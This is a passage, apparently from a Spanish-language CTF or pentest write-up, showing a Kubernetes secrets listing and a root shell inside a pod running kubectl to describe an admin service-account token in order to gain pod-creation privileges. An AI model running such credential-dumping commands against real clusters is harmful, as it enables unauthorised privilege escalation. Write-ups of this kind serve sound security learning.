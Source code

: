```null
endpoint-controller-token-zd5b9                      kubernetes.io/service-account-token   3      176d
disruption-controller-token-cnqj8                    kubernetes.io/service-account-token   3      176d
cronjob-controller-token-csxvj                       kubernetes.io/service-account-token   3      176d
endpointslice-controller-token-wrnvm                 kubernetes.io/service-account-token   3      176d
pod-garbage-collector-token-56dzk                    kubernetes.io/service-account-token   3      176d
namespace-controller-token-g8jmq                     kubernetes.io/service-account-token   3      176d
daemon-set-controller-token-b68xx                    kubernetes.io/service-account-token   3      176d
replicaset-controller-token-7fkxv                    kubernetes.io/service-account-token   3      176d
job-controller-token-xctqc                           kubernetes.io/service-account-token   3      176d
ttl-controller-token-rsshv                           kubernetes.io/service-account-token   3      176d
deployment-controller-token-npk6k                    kubernetes.io/service-account-token   3      176d
attachdetach-controller-token-xvj9h                  kubernetes.io/service-account-token   3      176d
endpointslicemirroring-controller-token-b5r69        kubernetes.io/service-account-token   3      176d
resourcequota-controller-token-8pp4p                 kubernetes.io/service-account-token   3      176d
generic-garbage-collector-token-5nkzj                kubernetes.io/service-account-token   3      176d
persistent-volume-binder-token-865v2                 kubernetes.io/service-account-token   3      176d
expand-controller-token-f2csp                        kubernetes.io/service-account-token   3      176d
clusterrole-aggregation-controller-token-wp8k6       kubernetes.io/service-account-token   3      176d
default-token-h5tf2                                  kubernetes.io/service-account-token   3      176d
c-admin-token-b47f7                                  kubernetes.io/service-account-token   3      176d
k3s-serving                                          kubernetes.io/tls                     2      176d
```

Puedo dumpear un token del usuario Administrador. Esto me puede servir para adquirir el privilegio de crear un POD

```null
root@devnode-deployment-776dbcf7d6-sr6vj:/tmp# ./kbctl describe secrets/c-admin-token-b47f7 -n kube-system
Name:         c-admin-token-b47f7
Namespace:    kube-system
Labels:       <none>
Annotations:  kubernetes.io/service-account.name: c-admin
              kubernetes.io/service-account.uid: 31778d17-908d-4ec3-9058-1e523180b14c

Type:  kubernetes.io/service-account-token

Data
====
ca.crt:     570 bytes
namespace:  11 bytes
```